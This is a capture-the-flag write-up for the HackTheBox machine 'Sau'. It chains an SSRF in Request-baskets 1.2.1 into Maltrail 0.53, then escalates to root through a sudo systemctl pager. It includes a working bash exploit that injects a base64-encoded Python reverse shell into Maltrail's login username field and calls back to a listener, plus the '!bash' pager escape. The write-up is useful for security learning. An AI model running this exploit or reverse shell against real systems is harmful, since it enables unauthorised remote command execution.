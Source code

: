 ## Writeup for Sau from HackTheBox

Firstly, an nmap scan was performed on the target machine with the added options of utilising default script scans and version detection against the target machine.

``` bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-18 18:13 EST
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:14 (0:00:14 remaining)
Stats: 0:01:46 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:16 (0:01:03 remaining)
Nmap scan report for 10.10.11.224
Host is up (0.29s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 18 Dec 2023 23:14:56 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 18 Dec 2023 23:14:23 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 18 Dec 2023 23:14:25 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=12/18%Time=6580D249%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Mon,\x2018\x20Dec\x2
SF:02023\x2023:14:23\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/
SF:web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x20
SF:200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Mon,\x2018\x20Dec\x2
SF:02023\x2023:14:25\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n
SF:Connection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(
SF:Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nDate:\x20Mon,\x2018\x20Dec\x202023\x2023:14:56\x20GMT\
SF:r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20na
SF:me\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$
SF:\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x2
SF:0Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.50 seconds
```

According to the above scan, there is an Openssh server on port 22, a http port on port 80 and an unknown port on port 55555.

Upon attempting to visit the web server on port 80, a connection could not be made and the request timed out:

![time out on port 80](images/image1.png)


It is possible that a Web Application Firewall (WAF) is preventing the user from visiting the web server on port 80.

However, it was possible to visit the server on port 55555:

![server on port 55555](images/image2.png)


The server on port 55555 is running Request-baskets of version 1.2.1. Upon creating a basket, requests can be made to the provided url and Request-baskets will record any request made to the provided url and allow users to view the details of the request made. To do this run the command:

``` bash
curl http://10.10.11.224:55555/n42xwmq
```

Then this will appear in request-baskets:

![server on port 55555](images/image3.png)


However, it was earlier identified that the server was running Request-baskets version 1.2.1. Upon researching this software for public vulnerabilities on Google, it was found that request-baskets was vulnerable to CVE-2023-27163.

As explained in https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7, CVE-2023-27163 identifies a Server Side Request Forgery vulnerability which occurs because Request-baskets provides users the option to forward requests made to a basket that the user has created, to another service that they may not have access to. As the request would have been forwarded by another service on the server, the network protections would not stop the request, thus, allowing unauthorised users to access the protected service. Hence, this can be used to forward a request to the protected service running on port 80 as identified earlier.

This can be exploited by configuring Request-baskets to forward requests to port 80. To configure request-baskets to do this, go to the buttons at the top right hand corner and click on the settings icon and apply the following settings:

![settings to apply to request-baskets](images/image4.png)


Subsequently, upon making a request to the basket's url, a Maltrail site can be accessed on port 80. On the web page, it can be seen that the version of Maltrail used was 0.53:

![Maltrail Site](images/image5.png)


Upon searching for public vulnerabilities targeting this version of Maltrail, it was found that it was vulnerable, as explained in this site: https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.


It appears that this exploit leverages an OS command injection vulnerability in the "username" parameter then the user logs into the Maltrail site. This vulnerability occurs because Maltrail's source code uses the subprocess.check_output function, which is used to run OS commands on the machine.


Hence a bash script was created which would be used to exploit this vulnerability:


``` bash
#!/bin/bash

if [ $# -eq 3 ]; then
	exploit="python3 -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$2\",$3));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'";

	encoded=$(echo -n "$exploit" | base64 -w 0);

	curl "$1/login" --data "username=;\`echo $encoded|base64 -d|bash\`";

else
	echo "Usage: bash script.sh <target_url> <listener_ip> <listener_port>";

fi
```


Within the script, the exploit variable contains a one line command that will send a reverse shell to the listener's ip address and port. Next, the command was encoded in base64. Then the curl command is used to mkake a post request to the login endpoint in Maltrail, while injecting the malicious command in the "username" parameter. The injected command is `;echo $encoded|base64 -d|bash`. First a semi-colon is added before the injected command, which is a command separator and is used to run the injected command after any other commands that the source code may run. Next the contents of the encoded payload will then be base64 decoded, before being piped to `bash` which will execute the reverse shell command.


To utilise the script start a netcat listener on any port and run the below command, providing the listener's ip address and port.


``` bash
bash script.sh http://10.10.11.224:55555/n42xwmq <IP> <PORT>
```


After letting the exploit run for some time, a reverse shell was then caught on the netcat listener containing the user "puma" running on the machine "sau". As the user "puma" the user.txt file can be read.

To enumerate for ways to escalate privileges, the first step taken was to run `sudo -l` which produced this output:

``` bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```


Upon running `sudo /usr/bin/systemctl status trail.service`, a less-like pager appeared. Pagers, such as less, are used to display large amounts of content in a way in which users can navigate through the content. It also provides the option to type commands into the pager, such as the `!bash`, which exits the pager and spawns a new shell for the user. As the pager was opened as a super user, this means that the shell will have root privileges when spawned by executing the command `!bash` on the pager.


Subsequently, this escalates privileges to the root user and allows the root.txt file to be read.


![running trail.service](images/image6.png)


Overall, I found the box educational in its usage of multiple public exploits in order to gain a foothold, emphasising the necessity of strong research skills within the field of Cybersecurity. The privilege escalation required users to have prior knowledge of the vulnerabilities of starting a pager as a super user. However, since I had prior knowledge of this exploit, I found this step to be straight forward.